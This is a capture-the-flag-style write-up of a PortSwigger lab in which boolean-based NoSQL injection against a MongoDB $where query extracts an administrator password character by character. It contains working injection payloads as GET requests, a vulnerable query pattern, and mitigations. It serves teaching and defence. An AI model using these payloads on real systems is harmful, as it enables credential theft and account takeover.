

# Lab 02: Exploiting NoSQL injection to extract data

> **Topic**: NoSQL Injection
> **Lab Number**: 02
> **Platform**: PortSwigger Web Security Academy

## Category
NoSQL Injection — Data Extraction via Boolean-based Injection

## Vulnerability Summary
The application's user lookup functionality, powered by a MongoDB NoSQL database, is vulnerable to NoSQL injection. Specifically, the `user` parameter in the `/user/lookup` endpoint is not properly sanitized, allowing an attacker to inject arbitrary NoSQL expressions. By using boolean-based injection techniques (e.g., leveraging the `this.password` property within a JavaScript expression), it is possible to exfiltrate sensitive data such as the administrator's password character by character.

## Attack Methodology

### Step 1: Recon & Discovery
After logging in as a standard user (`wiener:peter`), I observed that the "My Account" page fetches user details via a client-side script (`/resources/js/userRole.js`). This script makes a GET request to the following endpoint:

```
GET /user/lookup?user=wiener
```

I tested for NoSQL injection by appending a single quote (`'`) to the `user` parameter, which triggered a server error, suggesting that the input was being improperly handled in a server-side JavaScript expression (like `$where`).

### Step 2: Confirming Boolean Oracle
I verified that I could control the application's response by injecting boolean conditions.

A **True** condition:
```
GET /user/lookup?user=wiener'%20%26%26%20'1'=='1
```
Returned the details for user `wiener`.

A **False** condition:
```
GET /user/lookup?user=wiener'%20%26%26%20'1'=='2
```
Returned the message: `{"message": "Could not find user"}`.

### Step 3: Determining Password Length
Using the boolean oracle, I determined the length of the `administrator` user's password using the `.length` property:

```
GET /user/lookup?user=administrator'%20%26%26%20this.password.length%20==%208%20||%20'a'=='b
```

The server returned the `administrator` user's details only when the length was set to `8`.

### Step 4: Password Exfiltration
I automated the extraction of the password by iterating through each character position (0-7) and testing against the character set `a-z`:

```javascript
// Payload structure
administrator' && this.password[i] == 'char' || 'a'=='b
```

By observing which character triggered a "True" response (returning the administrator's user object), I successfully reconstructed the password: `eorrmsuo`.

### Step 5: Final Exploitation
I logged out of the `wiener` account and logged in as `administrator` using the extracted password `eorrmsuo`. Lab solved.




## Technical Root Cause
The vulnerability exists because the application uses unsanitized user input within a server-side JavaScript expression executed by the NoSQL database (likely MongoDB's `$where` operator or a similar feature).

```javascript
// Conceptual vulnerable code
db.users.find({ $where: "this.username == '" + userInput + "'" })
```

When an attacker provides `administrator' && this.password.length == 8 || 'a'=='b`, the query becomes:
```javascript
db.users.find({ $where: "this.username == 'administrator' && this.password.length == 8 || 'a'=='b'" })
```
This allows the attacker to execute arbitrary JavaScript logic within the database context to probe fields that are not meant to be exposed.

## Impact
- **Full Account Takeover**: Attackers can extract passwords for any user, including administrators.
- **Sensitive Data Exposure**: Any field within the user document (e.g., roles, emails, internal IDs) can be exfiltrated.
- **Bypass Authentication**: NoSQL injection can often be used to bypass login forms entirely if the same vulnerability exists there.

## Proof of Concept
**Exfiltrate Character at Position 0:**
```
GET /user/lookup?user=administrator'%20%26%26%20this.password[0]%20==%20'e'%20||%20'a'=='b
```

## Key Takeaways
1. **Avoid Server-Side JavaScript Execution**: Where possible, avoid using operators like `$where` in MongoDB. They are notoriously difficult to secure.
2. **Use Parameterized Queries**: Use standard NoSQL query operators (like `{ username: userInput }`) instead of building strings. Most modern NoSQL drivers handle this safely.
3. **Input Sanitization**: Always validate and sanitize user input. For NoSQL, ensure that input intended to be a string cannot be interpreted as an object or a script.

## Mitigation
1. **Parameterized Queries**: Replace string-based queries with built-in query operators.
2. **Disable Scripting**: Disable server-side JavaScript execution in the NoSQL database configuration if it's not required for business logic.
3. **Principle of Least Privilege**: Ensure the database user account used by the application only has access to the fields and collections necessary for its function.

## References
- [PortSwigger NoSQL Injection Lab - Exploiting NoSQL injection to extract data](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data)
- [PortSwigger NoSQL Injection — What is NoSQL injection?](https://portswigger.net/web-security/nosql-injection)
- [OWASP NoSQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/NoSQL_Injection_Prevention_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium (Console for automation)

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
